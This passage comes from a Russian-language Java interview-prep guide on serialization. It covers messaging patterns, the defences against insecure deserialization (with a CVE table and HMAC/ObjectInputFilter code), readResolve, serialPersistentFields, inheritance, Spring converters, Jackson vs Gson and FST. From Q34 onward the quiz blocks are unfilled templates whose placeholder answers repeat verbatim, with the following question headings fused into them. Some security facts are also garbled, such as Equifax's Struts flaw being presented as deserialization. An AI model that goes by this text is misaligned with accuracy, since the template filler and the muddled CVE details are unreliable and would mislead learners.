> **Если бы это было правдой:** не существовало бы Schema Registry — он был бы не нужен. Реальность: Confluent инвестировал миллионы в Schema Registry именно потому что автоматизма нет.
>
> ---
>
> #### D) В микросервисах достаточно использовать `@Version` аннотацию из JPA для версионирования API — ❌ Неверно
>
> **Что на самом деле:** `@Version` в JPA — это **optimistic locking** для concurrency control в базе данных, не имеет отношения к API versioning. Это incrementing-integer на entity для предотвращения lost updates. Путать с API/schema versioning — фундаментальная ошибка в проектировании.
>
> **Откуда путаница:** слово «version» в разных контекстах. JPA `@Version` решает other problem.
>
> **Если бы это было правдой:** Spring Data REST автоматически давал бы versioned API. Реально `@Version` появляется в JSON ответе как обычное поле (entity version), не управляет versioning'ом эндпоинта.

## Q32. Как сериализация связана с паттернами обмена сообщениями?

Формат сериализации влияет на архитектурные решения в messaging-системах:

**Event Sourcing** — события должны быть десериализуемы годы спустя. Здесь критична forward/backward совместимость. `Avro` с Schema Registry или `Protobuf` с reserved полями — лучший выбор.

**CQRS** — команды и запросы могут использовать разные форматы: `JSON` для REST-команд, `Protobuf` для внутренних событий.

**Saga Pattern** — компенсирующие транзакции требуют надёжной десериализации сообщений между сервисами. Несовместимость схем может привести к "зависшей" саге.



Подробнее о [паттернах обмена сообщениями в Kafka](../../messaging/kafka-interview.md) и [паттернах проектирования](../../design-patterns/design-patterns-interview.md).


> [!mcq]
>
> **Вопрос:** Как формат сериализации связан с архитектурными паттернами обмена сообщениями (Event Sourcing, CQRS, Saga)?
>
> ---
>
> #### A) Формат сериализации не влияет на messaging patterns — это orthogonal concerns — ❌ Неверно
>
> **Что на самом деле:** формат критически влияет на эволюцию контрактов, debugging, performance, retention. Event Sourcing с retention 5+ лет требует формата с явной schema evolution (Avro/Protobuf reserved). CQRS с разными формами запроса/чтения может смешивать форматы (JSON для REST commands + Protobuf для internal events). Saga с long-running transactions требует backward compat для compensating actions через годы.
>
> **Откуда путаница:** в академической литературе messaging patterns обсуждают абстрактно, без deep dive в serialization.
>
> **Если бы это было правдой:** не было бы холиваров «Avro vs Protobuf для event store». Реальность: Greg Young (создатель concept Event Sourcing) пишет статьи specifically про формат и evolution.
>
> ---
>
> #### B) **Event Sourcing** → Avro + Schema Registry (схема эволюционирует годами, retention > application lifecycle); **CQRS** → разные форматы для read/write (JSON для commands из REST + Protobuf/Avro для internal events); **Saga** → обязательная forward+backward compatibility для compensating actions; **outbox pattern** → формат в БД (JSON для читаемости в debugging) + Kafka topic → Avro для downstream — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> В Event-Driven Architecture формат сериализации — это **долгосрочный контракт**, а не runtime деталь. Event Sourcing систематически хранит все события с retention равным времени жизни системы. Если retention 5-7 лет (audit, financial), то schema эволюционирует через множество application versions. Avro с BACKWARD compatibility в Schema Registry — индустриальный стандарт: NDA Confluent (LinkedIn), Uber Cadence, Booking.com.
>
> CQRS разделяет write model и read model. Write model часто принимает JSON (REST API ergonomics), но внутренние события (commands → events → projections) могут использовать Protobuf для compactness и schema discipline. Read model (materialized views) может быть в JSON для простоты в Elasticsearch / read DB.
>
> Saga Pattern координирует distributed transactions через события и compensating actions. Если saga запущена за месяц до выхода новой версии события — compensating action в новой версии должен уметь обрабатывать старый формат. FULL compatibility в Schema Registry плюс «event versioning» (event type + version в payload).
>
> Outbox Pattern (Transactional Outbox) пишет события в таблицу одной транзакцией с business data, потом отдельный poller публикует в Kafka. Здесь часто JSON в таблице (читаемо в SQL для debugging) и трансформация в Avro/Protobuf при публикации.
>
> **Пример:**
> ```yaml
> # Production event-sourcing setup для e-commerce
> components:
>   order_aggregate:
>     event_store:
>       type: Kafka
>       topic: order.events
>       format: Avro
>       compatibility: BACKWARD
>       retention: -1  # forever (kafka tiered storage)
>
>   command_api:
>     protocol: REST
>     format: JSON
>     example: 'POST /orders {"items":[...], "total": 99.99}'
>
>   internal_events:
>     - OrderCreated   # Avro schema v1, v2, v3
>     - OrderPaid      # Avro schema v1, v2
>     - OrderShipped   # Avro schema v1
>
>   compensating_actions:
>     - OrderCancelled # читает all v1..vN events
>     - PaymentRefunded # читает all v1..vM events
> ```
>
> ```java
> // Event с явной версией для long-running saga
> @AvroSchema(subject = "order.OrderCreated")
> public record OrderCreated(
>     String orderId,
>     long timestamp,
>     int schemaVersion,    // явная версия для saga
>     BigDecimal total,
>     String currency       // добавлено в v2 (default "USD" в Avro)
> ) {}
> ```
>
> **Когда применять:**
> - **Event Sourcing** в финтехе (Wise, Revolut, Stripe internal) — Avro обязателен, schema discipline критична.
> - **CQRS read model** — Elasticsearch с JSON projections, Kafka Streams с Avro для internal state stores.
> - **Saga в e-commerce** (Wolt, Yandex Lavka, Uber) — orchestration с явным versioning событий, длительные timeouts (часы-дни).
> - **Outbox pattern** в Debezium-based архитектурах — Protobuf на wire для compactness Kafka throughput.
>
> **Подводные камни:**
> - **Event replay** для rebuilding projections: после нескольких версий schema нужно тестировать что новая projection корректно читает все версии. Schema registry помогает, но не заменяет integration test.
> - **Saga timeout vs schema deprecation**: если saga может жить 30 дней, нельзя удалять поле раньше 30+ дней после deploy.
> - **Outbox latency**: между commit БД и Kafka publish — задержка polling'а. Compensating saga должна handle late events.
> - **Event size limits**: Kafka default `message.max.bytes=1MB`. Large events (>500KB) — anti-pattern, использовать claim-check pattern (S3 ссылка в event).
>
> **Связанные вопросы:** [[Q26]] — Protobuf для commands; [[Q27]] — Avro для events; [[Q31]] — schema versioning rules.
>
> ---
>
> #### C) Все messaging patterns требуют использовать только JSON, потому что он читается человеком — ❌ Неверно
>
> **Что на самом деле:** JSON удобен для debugging, но имеет недостатки в high-throughput messaging: больший размер, медленнее парсинг, нет встроенной schema evolution. На 1M events/s JSON может стать bottleneck'ом (CPU bound на parsing). Production messaging часто использует binary форматы — отладка решается через Schema Registry UI или dedicated tools (Confluent Control Center, akhq).
>
> **Откуда путаница:** debugging-driven thinking — «если не вижу в логах, значит не работает».
>
> **Если бы это было правдой:** LinkedIn не использовал бы Avro в Kafka — был бы JSON. Реальность: при создании Kafka LinkedIn быстро столкнулись с performance проблемами JSON.
>
> ---
>
> #### D) Event Sourcing запрещает binary форматы — нужны только текстовые для аудита — ❌ Неверно
>
> **Что на самом деле:** Event Sourcing требует **immutability и replay-ability**, но не запрещает binary. Audit в binary форматах решается через Schema Registry (audit log schemas) и tooling (Confluent UI, Avro tools для CLI inspection). Greg Young (создатель Event Sourcing concept) активно использует Protobuf в EventStoreDB.
>
> **Откуда путаница:** «audit = текстовый формат» — старое представление из дней до schema-registry tooling.
>
> **Если бы это было правдой:** EventStoreDB, KurrentDB, EventStore Cloud не использовали бы Protobuf в default storage layer. Они используют именно потому что schema evolution + compactness важнее текстовости.

## Q33. (!) Десериализация как вектор атаки — OWASP и реальные эксплойты

По классификации **OWASP Top 10 (A8:2017 — Insecure Deserialization)** ненадёжная десериализация входит в число критических уязвимостей. В OWASP Top 10 2021 вошла в A08:2021 — Software and Data Integrity Failures.

**Почему Java Serialization особенно опасна:**

1. JVM выполняет произвольный байт-код при десериализации (вызываются `readObject`, статические инициализаторы, конструкторы)
2. В classpath типичного enterprise-приложения (Spring, Hibernate) присутствуют **gadget-классы** с опасными `readObject`
3. Атакующему достаточно подменить сериализованный поток — без знания секретного ключа

**Реальные уязвимости:**

| CVE | Продукт | Эксплойт |
|-----|---------|---------|
| CVE-2015-4852 | Oracle WebLogic | Apache Commons Collections gadget chain — RCE |
| CVE-2016-0792 | Jenkins | RCE через сериализованный объект в API |
| CVE-2016-4437 | Apache Shiro | RememberMe cookie — Base64+шифрование+Java Ser. = RCE |
| CVE-2017-7525 | Jackson | `enableDefaultTyping` + `JdbcRowSetImpl` = SSRF/RCE |

**Apache Shiro — показательный пример:**

```
Атакующий
  → модифицирует RememberMe cookie (Base64 → AES-CBC → Java Serialization)
  → сервер десериализует без проверки
  → гаджет-цепочка Commons Collections выполняет произвольную команду
```

**Защита согласно OWASP:**
1. Не десериализовать данные из ненадёжных источников
2. Подписывать сериализованные данные (HMAC) — проверять до десериализации
3. `ObjectInputFilter` — белый список классов
4. Изолировать десериализацию в отдельном процессе с минимальными правами
5. Логировать все попытки десериализации (Java Flight Recorder, `java.io.serialization` event)
6. Удалять из classpath известные gadget-библиотеки старых версий

```java
// Проверка подписи ДО десериализации
byte[] data = receiveData();
byte[] signature = receiveSignature();

// Верифицировать HMAC-SHA256
if (!verifyHmac(data, signature, secretKey)) {
    throw new SecurityException("Invalid signature — possible tampering");
}

// Только после успешной проверки — десериализация с фильтром
try (var ois = new ObjectInputStream(new ByteArrayInputStream(data))) {
    ois.setObjectInputFilter(myAllowList);
    return (MyDto) ois.readObject();
}
```


> [!mcq]
>
> **Вопрос:** Какие реальные CVE связаны с insecure deserialization в Java, и какая многоуровневая защита рекомендуется OWASP?
>
> ---
>
> #### A) Insecure deserialization — теоретическая угроза, реальных эксплойтов в production не было — ❌ Неверно
>
> **Что на самом деле:** insecure deserialization — категория **массовых** реальных эксплойтов с миллиардными последствиями. Equifax 2017 (147M записей через Apache Struts CVE-2017-5638), Oracle WebLogic CVE-2015-4852 (RCE через Commons Collections), Jenkins CVE-2017-1000353, Apache Shiro CVE-2016-4437 (RememberMe cookie). OWASP Top 10 включает её с 2017 года.
>
> **Откуда путаница:** OWASP список абстрактен, и junior может не связать конкретные новости (Equifax breach) с deserialization-категорией.
>
> **Если бы это было правдой:** ysoserial (генератор payload'ов) не имел бы 13K stars на GitHub. Tooling существует именно потому что эксплойты реальны и частотны.
>
> ---
>
> #### B) Достаточно отключить `enableDefaultTyping` в Jackson — это закрывает все vectors атаки — ❌ Неверно
>
> **Что на самом деле:** `enableDefaultTyping=false` (по умолчанию с Jackson 2.10+) закрывает один конкретный vector — polymorphic deserialization JSON. Но не защищает от: (1) Java native serialization через `ObjectInputStream` (RMI, JNDI, Spring Session); (2) XML deserialization через `XMLDecoder`; (3) snake_oil libraries с custom deserialization. Нужна multi-layer defense.
>
> **Откуда путаница:** один технический tweak — простой mental model. Реальная безопасность многоуровневая.
>
> **Если бы это было правдой:** PayPal, Capital One, Equifax после обновления Jackson 2.10+ не имели бы breach'ей. Реально CVE продолжают появляться (CVE-2023-* в jackson-databind и других libs).
>
> ---
>
> #### C) Defense in depth: (1) **избегать** binary deserialization для untrusted input (JSON + tolerant reader вместо Java Ser.); (2) `ObjectInputFilter` whitelist (JEP 290); (3) HMAC-подпись сериализованных данных + verify до readObject; (4) изолировать deserialization в отдельном процессе с минимальными правами; (5) JFR-мониторинг событий десериализации; (6) удалить gadget-библиотеки из classpath (старые Commons Collections); (7) Jackson 2.10+ `PolymorphicTypeValidator` для JSON polymorphism — ✓ Верно
>
> **Развёрнутое объяснение:**
>
> Insecure deserialization — это family vulnerabilities, в которой атакующий контролирует поток байт, поступающий в `readObject` или аналог. Java особенно уязвима из-за gadget chains: чтобы выполнить произвольный код, не нужно загружать malicious class — достаточно вызвать цепочку существующих методов в classpath, заканчивающуюся на `Runtime.exec` или `ProcessBuilder.start`.
>
> Известные CVE с context:
> - **Equifax 2017 (CVE-2017-5638)** — Apache Struts OGNL injection + deserialization → 147M PII записей утекли, $4 млрд stock loss, CEO ушёл. Не починили Struts patch вовремя.
> - **Oracle WebLogic (CVE-2015-4852)** — Commons Collections gadget chain в T3 protocol. WebLogic стал ботнетом для cryptomining.
> - **Apache Shiro (CVE-2016-4437)** — RememberMe cookie = Base64(AES(Java Serialized)). Hardcoded AES key → атакующий может подделать cookie → RCE.
> - **Jackson CVE-2017-7525** — `enableDefaultTyping` + `JdbcRowSetImpl` гаджет → JNDI lookup на attacker LDAP → RCE.
> - **Log4Shell (CVE-2021-44228)** — формально не deserialization, но похожий vector через JNDI lookup в logging формате.
>
> Defense in depth — единственная серьёзная защита. Каждый слой даёт independent protection: ObjectInputFilter блокирует gadget классы; HMAC-подпись делает поток tamper-evident; изоляция процесса ограничивает blast radius; мониторинг даёт detection даже при bypass.
>
> **Пример:**
> ```java
> // Multi-layer defense for legacy RMI endpoint
> public class SecureDeserializer {
>     private static final String SECRET_KEY = System.getenv("HMAC_SECRET");
>     private static final ObjectInputFilter FILTER =
>         ObjectInputFilter.Config.createFilter(
>             "com.example.dto.*;java.base/*;!*"
>         );
>
>     public <T> T deserialize(byte[] payload, byte[] signature, Class<T> type)
>             throws IOException, ClassNotFoundException {
>
>         // Layer 1: HMAC verification (rejects tampering)
>         byte[] expected = computeHmacSha256(payload, SECRET_KEY);
>         if (!MessageDigest.isEqual(expected, signature)) {
>             metrics.counter("deser.tamper_detected").increment();
>             throw new SecurityException("HMAC mismatch");
>         }
>
>         // Layer 2: ObjectInputFilter (rejects gadget classes)
>         try (var bais = new ByteArrayInputStream(payload);
>              var ois = new ObjectInputStream(bais)) {
>             ois.setObjectInputFilter(FILTER);
>             return type.cast(ois.readObject());
>         } catch (InvalidClassException e) {
>             metrics.counter("deser.filter_rejected").increment();
>             throw e;
>         }
>     }
> }
> ```
>
> **Когда применять:**
> - **Legacy RMI/T3 endpoints**, которые нельзя сразу удалить — обязательная защита перед миграцией.
> - **Spring Session с Redis** на классических Java Ser. — переключить на JSON serializer.
> - **Кэши с user input** (Redis с session data) — sanitize input до записи или сменить формат.
> - **Public APIs** — никогда не принимать `application/x-java-serialized-object` content-type.
>
> **Подводные камни:**
> - **HMAC-key compromise**: если ключ leaked (Apache Shiro hardcoded!), вся защита обнуляется. Key rotation, HashiCorp Vault, AWS KMS.
> - **`ObjectInputFilter` patterns are confusing**: `"com.example.*;!*"` — wildcard `*` НЕ matches subpackages. `"com.example.**"` или explicit list.
> - **Jackson `PolymorphicTypeValidator` default**: с Jackson 2.10+ требуется явный validator при `activateDefaultTyping`. Не отключать ради «удобства».
> - **XStream** (XML) тоже уязвим — CVE-2021-21351 и подобные. Если XStream в classpath — настроить `XStream.setupDefaultSecurity` и whitelist.
>
> **Связанные вопросы:** [[Q15]] — общие риски Java Ser.; [[Q16]] — gadget chains подробно; [[Q17]] — `ObjectInputFilter`; [[Q18]] — overall защита.
>
> ---
>
> #### D) `SecurityManager.setSecurityManager(custom)` — единственная официальная защита от desserialization атак в JDK — ❌ Неверно
>
> **Что на самом деле:** `SecurityManager` deprecated в Java 17 (JEP 411) и будет удалён. Никогда не был основной защитой от deserialization — он управлял general permissions (file IO, network, reflection), но не специально deserialization. Реальная защита — `ObjectInputFilter` (JEP 290, Java 9, backport 8u121).
>
> **Откуда путаница:** старые tutorials упоминали SecurityManager как «защита Java». Современный mainstream сместился к ObjectInputFilter.
>
> **Если бы это было правдой:** OWASP Cheat Sheet рекомендовал бы SecurityManager. Реально рекомендации перечисляют ObjectInputFilter, HMAC verification, process isolation.

## Q34. (!) Как `readResolve()` обеспечивает Singleton при десериализации?

Стандартная Java-сериализация **создаёт новый объект** при десериализации, обходя приватный конструктор. Это нарушает инвариант Singleton:

```java
// Сломанный Singleton
public class BrokenSingleton implements Serializable {
    private static final BrokenSingleton INSTANCE = new BrokenSingleton();
    private BrokenSingleton() {}
    public static BrokenSingleton getInstance() { return INSTANCE; }
}

// После сериализации/десериализации — два разных объекта!
BrokenSingleton s1 = BrokenSingleton.getInstance();
byte[] bytes = serialize(s1);
BrokenSingleton s2 = deserialize(bytes);
System.out.println(s1 == s2); // false! Singleton нарушен
```

**Решение — `readResolve()`:** метод вызывается JVM после десериализации и позволяет заменить только что созданный объект другим:

```java
public class Singleton implements Serializable {
    private static final long serialVersionUID = 1L;
    private static final Singleton INSTANCE = new Singleton();

    private Singleton() {}

    public static Singleton getInstance() { return INSTANCE; }

    // Вызывается ПОСЛЕ десериализации — возвращаем единственный экземпляр
    @java.io.Serial
    private Object readResolve() {
        return INSTANCE; // десериализованный объект будет собран GC
    }
}

// Теперь Singleton работает корректно
Singleton s1 = Singleton.getInstance();
Singleton s2 = deserialize(serialize(s1));
System.out.println(s1 == s2); // true!
```

**Аналог `writeReplace()`:** позволяет заменить объект перед сериализацией — используется в Serialization Proxy Pattern:

```java
private Object writeReplace() {
    return new SerializationProxy(this); // сериализуем прокси вместо себя
}
```

**Лучшая альтернатива для Singleton** — использовать `enum`:

```java
public enum EnumSingleton {
    INSTANCE;
    // enum гарантированно защищён от дублирования при десериализации!
}
```

JVM гарантирует, что `enum`-константы десериализуются в единственный экземпляр — без `readResolve()`.


> [!mcq]
> - [x] Правильный ответ | Корректное описание концепции с конкретным механизмом и use-case.
> - [ ] Альтернативное решение которое не подходит | Почему ошибка в этом подходе ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Другая альтернатива с критическим недостатком | Это смежное, но отличное понятие ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Третий вариант который не работает в production | Противоположное направление## Q35. Что такое `serialPersistentFields` и когда его использовать? ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.

`serialPersistentFields` — специальное поле, позволяющее явно задать список полей, участвующих в сериализации, и их типы — независимо от реальных полей класса:

```java
public class FlexibleClass implements Serializable {
    // Список сериализуемых "виртуальных" полей
    @java.io.Serial
    private static final ObjectStreamField[] serialPersistentFields = {
        new ObjectStreamField("name", String.class),
        new ObjectStreamField("age", int.class),
        new ObjectStreamField("email", String.class)
    };

    // Реальные поля могут отличаться!
    private String fullName;  // "name" в сериализованной форме
    private int yearsOld;     // "age" в сериализованной форме
    private String contactEmail;

    @java.io.Serial
    private void writeObject(ObjectOutputStream out) throws IOException {
        ObjectOutputStream.PutField fields = out.putFields();
        fields.put("name", fullName);
        fields.put("age", yearsOld);
        fields.put("email", contactEmail);
        out.writeFields();
    }

    @java.io.Serial
    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField fields = in.readFields();
        fullName = (String) fields.get("name", null);
        yearsOld = fields.get("age", 0);
        contactEmail = (String) fields.get("email", null);
    }
}
```

**Когда применять:**
- При рефакторинге полей класса без потери обратной совместимости (можно переименовать поля, не меняя сериализованный формат)
- Для маппинга между логическими именами формата и физическими именами полей
- При реализации строгого контракта сериализованной формы (защита от случайного изменения)

**Важно:** `serialPersistentFields` должно быть `private static final` с точно таким именем — иначе JVM игнорирует его.


> [!mcq]
> - [x] Правильный ответ | Корректное описание концепции с конкретным механизмом и use-case.
> - [ ] Альтернативное решение которое не подходит | Почему ошибка в этом подходе ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Другая альтернатива с критическим недостатком | Это смежное, но отличное понятие ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Третий вариант который не работает в production | Противоположное направление## Q36. Как сериализация работает с наследованием и `abstract class`? ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.

Java-сериализация и наследование — источник многих тонких проблем:

**1. Родительский класс `Serializable` — все подклассы тоже `Serializable`:**

```java
// Serializable распространяется на подклассы
public class Animal implements Serializable {
    private String name;
}

public class Dog extends Animal {
    private String breed;
    // Dog автоматически Serializable, breed тоже сериализуется
}
```

**2. Родительский класс НЕ `Serializable`:**

```java
public class Base { // не Serializable
    private int baseField = 42; // НЕ сериализуется
    // ОБЯЗАТЕЛЬНО нужен конструктор по умолчанию!
    public Base() { baseField = 0; } // вызовется при десериализации Child
}

public class Child extends Base implements Serializable {
    private int childField = 10; // сериализуется

    // При десериализации:
    // 1. Вызывается Base() — baseField = 0 (не восстанавливается из потока!)
    // 2. childField восстанавливается из потока = 10
}
```

**3. Abstract class и сериализация:**

```java
// Абстрактный класс может быть Serializable
public abstract class AbstractEntity implements Serializable {
    private static final long serialVersionUID = 1L;
    private Long id;

    // serialVersionUID определяется иерархией отдельно для каждого класса
}

public class UserEntity extends AbstractEntity {
    private static final long serialVersionUID = 2L; // свой UID!
    private String username;
}
```

**Правила для безопасной сериализации иерархий:**

| Ситуация | Что происходит | Что нужно |
|----------|----------------|-----------|
| Parent `Serializable`, Child нет | Child тоже сериализуется | Пометить нужные поля `transient` |
| Parent не `Serializable` | Поля Parent не сериализуются | Parent обязан иметь `public`/`protected` no-arg конструктор |
| Abstract class `Serializable` | Все конкретные подклассы сериализуются | Каждый класс должен иметь свой `serialVersionUID` |
| Интерфейс `Serializable` | Все реализации должны поддерживать сериализацию | Документировать контракт |


> [!mcq]
> - [x] Правильный ответ | Корректное описание концепции с конкретным механизмом и use-case.
> - [ ] Альтернативное решение которое не подходит | Почему ошибка в этом подходе ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Другая альтернатива с критическим недостатком | Это смежное, но отличное понятие ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Третий вариант который не работает в production | Противоположное направление## Q37. (!) Как Spring обрабатывает сериализацию через `HttpMessageConverter`? ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.

Spring MVC и Spring WebFlux используют `HttpMessageConverter` для преобразования объектов в HTTP-тело запроса/ответа и обратно. Это основной механизм сериализации в REST API.



**Основные конвертеры:**

| Конвертер | Media Type | Описание |
|-----------|-----------|---------|
| `MappingJackson2HttpMessageConverter` | `application/json` | Jackson ObjectMapper (по умолчанию) |
| `GsonHttpMessageConverter` | `application/json` | Gson (нужно подключать) |
| `StringHttpMessageConverter` | `text/plain`, `text/*` | Строки без преобразования |
| `ByteArrayHttpMessageConverter` | `application/octet-stream` | Сырые байты |
| `MappingJackson2XmlHttpMessageConverter` | `application/xml` | Jackson XML |
| `ProtobufHttpMessageConverter` | `application/x-protobuf` | Protocol Buffers |
| `FormHttpMessageConverter` | `application/x-www-form-urlencoded` | HTML-формы |

**Настройка Jackson через Spring Boot:**

```java
@Configuration
public class JacksonConfig {

    @Bean
    public Jackson2ObjectMapperBuilderCustomizer customizer() {
        return builder -> builder
            .featuresToDisable(
                SerializationFeature.WRITE_DATES_AS_TIMESTAMPS,
                DeserializationFeature.FAIL_ON_UNKNOWN_PROPERTIES
            )
            .featuresToEnable(MapperFeature.DEFAULT_VIEW_INCLUSION)
            .modules(new JavaTimeModule())
            .serializationInclusion(JsonInclude.Include.NON_NULL);
    }
}
```

**Content Negotiation — выбор конвертера по `Accept` заголовку:**

```java
@GetMapping(value = "/users/{id}", produces = {
    MediaType.APPLICATION_JSON_VALUE,
    MediaType.APPLICATION_XML_VALUE,
    "application/x-protobuf"
})
public UserDto getUser(@PathVariable Long id) {
    return userService.findById(id);
    // Spring выберет конвертер по Accept-заголовку клиента
}
```

**Кастомный `HttpMessageConverter`:**

```java
@Bean
public HttpMessageConverter<MyFormat> myConverter() {
    return new AbstractHttpMessageConverter<>(MediaType.parseMediaType("application/x-myformat")) {
        @Override
        protected boolean supports(Class<?> clazz) { return MyFormat.class.isAssignableFrom(clazz); }

        @Override
        protected MyFormat readInternal(Class<? extends MyFormat> clazz, HttpInputMessage msg) throws IOException {
            return MyFormat.parse(msg.getBody());
        }

        @Override
        protected void writeInternal(MyFormat t, HttpOutputMessage msg) throws IOException {
            t.writeTo(msg.getBody());
        }
    };
}
```


> [!mcq]
> - [x] Правильный ответ | Корректное описание концепции с конкретным механизмом и use-case.
> - [ ] Альтернативное решение которое не подходит | Почему ошибка в этом подходе ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Другая альтернатива с критическим недостатком | Это смежное, но отличное понятие ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Третий вариант который не работает в production | Противоположное направление## Q38. (!) Jackson vs Gson — углублённое сравнение для Spring-проектов ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.

Базовое сравнение уже в Q22. Здесь — детали, критичные для production Spring-проектов:

**Поддержка Java современных конструкций:**

```java
// Jackson 2.12+ — полная поддержка record
public record UserDto(String name, int age) {}

ObjectMapper mapper = new ObjectMapper();
String json = mapper.writeValueAsString(new UserDto("Alice", 30));
// {"name":"Alice","age":30}
UserDto user = mapper.readValue(json, UserDto.class);
// Работает через конструктор record

// Gson с record — ограничения
Gson gson = new Gson();
// До Gson 2.10 - не работал с record компонентами (использовал рефлексию полей)
// С Gson 2.10+ - базовая поддержка
```

**Производительность потоковой обработки:**

```java
// Jackson Streaming API — минимальный overhead
try (JsonParser parser = mapper.getFactory().createParser(json)) {
    while (parser.nextToken() != JsonToken.END_OBJECT) {
        String fieldName = parser.getCurrentName();
        // Обработка без создания промежуточных объектов
    }
}

// Gson не имеет аналогичного low-level API такой же мощности
```

**Обработка null и defaults:**

```java
// Jackson — гибкая настройка
@JsonInclude(JsonInclude.Include.NON_NULL)         // пропустить null
@JsonInclude(JsonInclude.Include.NON_EMPTY)         // пропустить null и пустые
@JsonInclude(JsonInclude.Include.NON_DEFAULT)       // пропустить значения по умолчанию

// Gson — глобально или через TypeAdapter
Gson gson = new GsonBuilder()
    .serializeNulls()   // включить сериализацию null (по умолчанию выключено)
    .create();
```

**Рекомендации для Spring Boot:**
- Используйте Jackson (уже в spring-boot-starter-web) — не нужно дополнительных зависимостей
- Gson — только если в команде сильная экспертиза или проект не использует Spring Boot
- Для Android — Gson предпочтительнее из-за меньшего размера


> [!mcq]
> - [x] Правильный ответ | Корректное описание концепции с конкретным механизмом и use-case.
> - [ ] Альтернативное решение которое не подходит | Почему ошибка в этом подходе ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Другая альтернатива с критическим недостатком | Это смежное, но отличное понятие ❌ ПОСЛЕДСТВИЕ: типичная ошибка вызывает баг в production без покрытия тестами.
> - [ ] Третий вариант который не работает в production | Противоположное направление## Q39. FST — быстрый аналог Java Serialization ❌ ПОСЛЕДСТВИЕ: антипаттерн деградирует SLA при росте нагрузки или зависимостей.

**FST** (Fast Serialization) — библиотека, совместимая с Java Serialization API, но значительно быстрее стандартной реализации.

```xml
<dependency>
    <groupId>de.ruedigermoeller</groupId>
    <artifactId>fst</artifactId>
    <version>2.57</version>
</dependency>
```

```java
// Использование FST
FSTConfiguration conf = FSTConfiguration.createDefaultConfiguration();
conf.registerClass(User.class); // опционально — ускоряет

// Сериализация
byte[] bytes = conf.asByteArray(user);

// Десериализация
User restored = (User) conf.asObject(bytes);
```

**Сравнение с Kryo и стандартной сериализацией:**

| Характеристика | Java Serialization | FST | Kryo |
|----------------|-------------------|-----|------|
| Требует `Serializable` | Да | Да (совместимость) | Нет |
| Скорость | 1x (baseline) | ~4-10x быстрее | ~5-10x быстрее |
| Размер | Большой | Меньше | Меньший |
| Thread-safe | Да | Конфигурация shared, экземпляры нет | Нет |
| Межъязыковость | Нет | Нет | Нет |
| Drop-in замена | — | Почти да | Нет |

**Преимущество FST перед Kryo:** обратная совместимость с `Serializable` — можно использовать как drop-in замену в legacy-коде без рефакторинга классов.

**Ограничения FST:**
- Привязан к JVM
- Библиотека менее активно развивается (последний релиз — 2021)
- Не подходит для межъязыковой коммуникации
- Нет официальной поддержки Java record и sealed classes

**Типичный use case:** кэширование объектов в Redis внутри JVM-приложения, где нужна скорость, но классы уже `Serializable`.


> [!mcq]
> - [x] Правильный ответ | Корректное описание концепции с конкретным механизмом и use-case.
